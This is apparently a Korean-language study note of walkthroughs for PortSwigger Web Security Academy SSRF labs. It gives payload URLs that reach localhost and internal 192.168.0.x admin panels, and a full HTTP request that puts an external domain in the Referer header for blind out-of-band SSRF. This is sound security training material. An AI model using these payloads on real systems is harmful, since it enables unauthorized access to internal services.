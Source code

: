 
# LAP

# 1. [초심자] 로컬 서버에 대한 기본 SSRF

- POST 방식 url 호출 시 파라미터로 localhost 호출
```
http://localhost/admin
```

# 2. [초심자] 다른 백엔드 시스템에 대한 기본 SSRF

- POST 방식 url 호출 시 파라미터로 ip 호출 
- 'x'는 인트루더로 찾기
```
http://192.168.0.x/admin
```

# 3. [실무자, 버프프로] 대역 외 감지 기능을 갖춘 블라인드 SSRF 

> referer에 외부 대역 IP 삽입해서 외부 호출 간의 내용 확인(드림핵 툴 처럼)
> 완료하려면 버프 프로 , collaborator 사용 필요

1. 제품 조회 요청 url
```
GET /product?productId=1 HTTP/2
Host: 0a4000c103c7b8dd80b976ff004800c0.web-security-academy.net
Cookie: session=R8TkIzmSOYI9MyP0FDPEPslMDuZofNpL
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4000c103c7b8dd80b976ff004800c0.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

2. Referer을 외부 대역 ip
	- collaborater 사용해서 외부 도메인 Referer에 삽입 
```
Referer: https://0a4000c103c7b8dd80b976ff004800c0.web-security-academy.net/
-> 
https://www.abcdef.com
```
